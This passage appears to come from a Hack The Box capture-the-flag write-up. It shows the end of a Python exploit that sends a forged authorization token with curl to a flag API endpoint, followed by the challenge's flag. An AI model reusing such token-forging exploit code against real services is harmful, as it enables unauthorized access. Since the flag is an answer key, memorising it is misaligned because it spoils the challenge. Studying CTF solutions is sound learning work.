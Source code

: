 ``` python
		data = exp.split("\n\n")[1].split("\n")[1]
		
		return data

	def getFlag(self):
		flag = subprocess.check_output([f"curl -s -XGET {self.url}/api/v1/flag -H 'Authorization: {str(self.tokenForge())}'"],shell=True)
		
		return json.loads(flag.decode())


if __name__ == "__main__":
	run = Exploit()
	print(run.getFlag())
```

**Flag**: HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}

**================================================================================================**

## ****

**Solving Scenario:**\